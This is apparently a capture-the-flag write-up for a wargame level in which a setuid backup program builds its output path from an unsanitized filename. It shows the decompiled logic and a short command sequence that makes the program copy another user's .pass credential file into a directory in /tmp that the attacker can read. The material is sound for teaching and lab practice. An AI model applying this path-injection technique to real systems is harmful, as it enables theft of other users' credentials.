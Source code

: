 # Level08

Our goal is to read the .pass file from another user's home directory, even though we don’t have direct permission.

## Binary behavior
When decompiling the binary, we notice:
- It expects one argument: the name of a file to back up.
- It logs the start and end of the backup using a custom function `log_wrapper()`.

It :
- Opens a log file at ./backups/.log.
- Logs the start of the backup.
- Opens the file given in argument.
- Prepares the destination path as ./backups/<filename>.
- Copies the content byte by byte.
- Logs the end of the backup.

The destination path is built like this:
```
strncpy(local_78, "./backups/", 11);
strncat(local_78, filename, ...);
```

So if we pass a filename like:
```
/home/users/level09/.pass
```
The final path becomes:
```
./backups//home/users/level09/.pass
```

The program will then open this file, copy its content, and write it into that path under ./backups/.

## Exploitation
The vulnerability here is that the user input (`filename`) is concatenated directly to the backup path without any sanitization. This allows us to inject subdirectories and filenames.

To exploit it:
```
cd /tmp
mkdir -p ./backups//home/users/level09/
~/level08 home/users/level09/.pass
cat /tmp/backups/home/users/level09/.pass
```
The program copies the target file into our own directory. We can now read the content.